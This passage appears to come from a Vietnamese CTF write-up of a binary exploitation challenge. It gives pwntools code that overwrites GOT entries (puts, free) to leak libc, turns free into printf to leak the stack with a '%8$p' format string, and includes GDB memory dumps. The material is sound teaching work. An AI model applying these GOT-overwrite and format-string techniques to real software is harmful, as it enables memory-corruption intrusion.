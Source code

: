 - Tiếp tục ta ow địa chỉ book 2 là puts.got, vì free() và puts() đều nhận giá trị là một địa chỉ

```python
fake_book2 = p64(0x8) + p64(exe.got["puts"])
bss_payload = payload + fake_book2
edit(1, bss_payload)
throw(2)

libc_leak = u64(p.recvline(keepends=False) + b"\0\0")
info("libc leak: " + hex(libc_leak))
libc.address = libc_leak - libc.sym['puts']
info("libc leak: " + hex(libc.address))
```

```
0x4040e0 <books>:       0x0000000000001000      0x00000000004040c0
0x4040f0 <books+16>:    0x0000000000000008      0x0000000000404030
0x404100 <books+32>:    0x6161616161207962      0x0000000000000041
0x404110 <books+48>:    0x0000000000000030      0x00000000004040c0
0x404120 <books+64>:    0x0000000000000000      0x0000000000000000
```

### Leak stack

- Tương tự như trước, ta sẽ ow free() thành printf() và sử dụng %p để leak stack
- Ow free.plt thành printf.plt

```python
fake_book2 = p64(0x8) + p64(exe.got["free"])
bss_payload = payload + fake_book2
# writes to secret_msg. book[1] now has ptr=got['free'] & size=0x8
edit(1, bss_payload)
edit(2, p64(exe.plt["printf"]))  # overwrite free with puts
```

- Hàm printf() vẫn nhận vào một địa chỉ chứa chuỗi, do đó mình bằng việc rewrite book 1 ta sẽ ghi đè địa chỉ book 2 thành địa chỉ chứa chuỗi, ở đây ta sẽ ow luôn book 3 thành "%8$p\0"

```python
fake_book2 = p64(0x8) + p64(0x404100)  # size=0x8 & ptr=book[2]
bss_payload = payload + fake_book2 + b"%8$p\0"
edit(1, bss_payload)  # writes to secret_msg. book[1] now has ptr=book[2] & size=0x8. book[2] now equals our format string.
throw(2)  # free("hello.%8$p.\0") becomes printf("hello.%8$p.\0")

stack_leak = int(p.recv(14).decode(), 16)
info("stack leak: " + hex(stack_leak))
ret = stack_leak - 24
info("ret: " + hex(ret))
```

```
gef➤  x/s 0x404100
0x404100 <books+32>:    "%8$p."
```
